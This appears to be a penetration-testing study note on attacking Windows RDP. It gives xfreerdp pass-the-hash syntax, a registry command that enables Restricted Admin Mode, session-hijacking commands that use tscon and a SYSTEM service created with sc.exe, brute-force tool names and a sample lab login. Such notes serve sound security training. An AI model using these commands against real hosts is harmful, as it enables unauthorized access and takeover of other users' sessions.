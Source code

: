 ```yaml
---
tags:
  - PtH
---
```

Port: TCP/UDP 3389
Script: `rdp*`
_Note: `--packet-trace`_ for better inspection

>**!!** RDP cookies (`mstshash=nmap`) used by Nmap to interact with the RDP server can be identified by `threat hunters`,Endpoint Detection and Response (`EDR`), etc.

>\> Windows system don't insist but they might accept inadequate encryption via [RDP Security](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rdpbcgr/8e8b2cca-c1fa-456c-8ecb-a82fc60b2322).
>\> Self-signed certificates only warn the client at user-end

# Pass the Hash
```shell-session
$ xfreerdp /v:<IP> /u:<USER> /pth:<NT-HASH>
```
>**NOTE:** `Restricted Admin Mode`, which is disabled by default, should be enabled on the target host; otherwise, the following error shows:
>![[rdp_session-4.webp]]
>To enable, add a new registry key `DisableRestrictedAdmin` (REG_DWORD) under the LSA Registry with the value of 0.

```cmd-session
CMD > reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```
# Session Hijack
If we RDP'd to an account with SYSTEM privileges, we can hijack other user's active RDP session
```CMD
> query user
> tscon <TARGET_SESSION_ID> /dest:<OUR_SESSION_NAME>
```
If we only have Local Administrator rights, we can use [[PsExec]] or [[Mimikatz]]. We need to create a service that runs as `Local System` and will execute any binary with `SYSTEM` privileges.
```CMD
> query user
> sc.exe create sessionhijack binpath= "cmd.exe /k tscon <TARGET_SESSION_ID> /dest:<OUR_SESSION_NAME>"
> net start sessionhijack
```
>**!! NOTE:** This doesn't work since Windows Server 2019.


# Bruteforce
## Tools
- [[Hydra]]
- [[Crowbar]]
# Tools
- [[RDP-Sec-checks]] by Cisco CX Security Labs
- [[rdesktop]]
- [[xfreerdp]]
```shell-session
$ xfreerdp /u:'cry0l1t3' /p:'P455w0rd!' /v:10.129.201.248
```

